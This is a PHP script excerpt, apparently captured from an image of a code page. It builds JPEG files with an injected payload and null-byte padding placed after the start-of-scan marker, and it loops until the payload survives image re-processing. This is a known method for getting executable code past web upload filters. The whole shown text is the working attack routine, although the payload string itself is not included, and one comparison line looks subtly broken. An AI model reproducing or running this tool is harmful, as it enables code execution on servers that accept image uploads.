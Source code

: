         set_error_handler("custom_error_handler");

        for($pad = 0; $pad < 1024; $pad++) {
            $nullbytePayloadSize = $pad;
            $dis = new DataInputStream($argv[1]);
            $outStream = file_get_contents($argv[1]);
            $extraBytes = 0;
            $correctImage = TRUE;

            if($dis->readShort() != 0xFFD8) {
                die('Incorrect SOI marker');
            }

            while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
                $marker = $dis->readByte();
                $size = $dis->readShort() - 2;
                $dis->skip($size);
                if($marker === 0xDA) {
                    $startPos = $dis->seek();
                    $outStreamTmp = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        str_repeat("\0",$nullbytePayloadSize) . 
                        substr($outStream, $startPos);
                    checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                    if($extraBytes !== 0) {
                        while((!$dis->eof())) {
                            if($dis->readByte() === 0xFF) {
                                if($dis->readByte !== 0x00) {
                                    break;
                                }
                            }
                        }
                        $stopPos = $dis->seek() - 2;
                        $imageStreamSize = $stopPos - $startPos;
                        $outStream = 
                            substr($outStream, 0, $startPos) . 
                            $miniPayload . 
                            substr(
                                str_repeat("\0",$nullbytePayloadSize).
                                    substr($outStream, $startPos, $imageStreamSize),
                                0,
                                $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                    substr($outStream, $stopPos);
                    } elseif($correctImage) {
                        $outStream = $outStreamTmp;
                    } else {
                        break;
                    }
                    if(checkImage('payload_'.$argv[1], $outStream)) {
                        die('Success!');
                    } else {
                        break;
                    }
                }
            }
        }
        unlink('payload_'.$argv[1]);
        die('Something\'s wrong');
